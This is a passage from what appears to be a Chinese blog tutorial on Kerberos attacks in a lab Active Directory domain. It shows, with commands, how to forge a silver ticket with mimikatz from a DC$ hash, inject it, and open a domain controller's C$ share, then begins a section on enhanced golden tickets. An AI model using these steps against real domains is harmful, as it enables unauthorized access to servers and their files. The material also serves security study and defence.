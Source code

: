 #### 6.2 实验流程

1\. 首先我们需要知道服务账户的密码 HASH ，这里同样拿域控来举例，通过 mimikatz 查看当前域账号 administrator 的 HASH 值。注意，这里使用的不是 Administrator 账号的 HASH，而是 DC$ 的 HASH。

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200104205038107-81911087.png)

2\. 通过 mimikatz 生成银票:

```
kerberos::golden /domain:yunying.lab /sid:\*\*\* /target:dc.yunying.lab /service:cifs /rc4:\*\*\* /user:silver /ptt


```

参数说明：

```
/domain:    当前域名称
/sid:       SID值，和金票一样取前面一部分
/target:    目标主机，这里是 dc.yunying.lab
/service:   服务名称，这里需要访问共享文件，所以是 cifs
/rc4:       目标主机的 HASH 值
/user:      伪造的用户名,这里是silver
/ptt:       表示的是 Pass The Ticket攻击，是把生成的票据导入内存，也可以使用/ticket导出之后再使用kerberos::ptt来导入


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200104205400009-319231197.png)

3\. 这时通过 klist 查看本机的 kerberos 票据可以看到生成的票据:

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200104205721512-836014394.png)

4\. 可以成功访问 DC 的共享文件夹。

```
dir \\\\dc.yunying.lab\\c$ 


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200104205754194-877986285.png)

银票生成时没有 KRBTGT 的密码，所以不能伪造 TGT 票据，只能伪造由 Server 端密码加密的 ST 票据，只能访问指定的服务。

### 0x07 Enhanced Golden Tickets(增强型金票)

#### 7.1 简介

在 Golden Ticket 部分说明可利用 krbtgt 的密码 HASH 值生成金票，从而能够获取域控权限同时能够访问域内其他主机的任何服务。但是普通的金票不能够跨域使用，也就是说金票的权限被限制在当前域内。

#### 7.2 普通金票的局限性
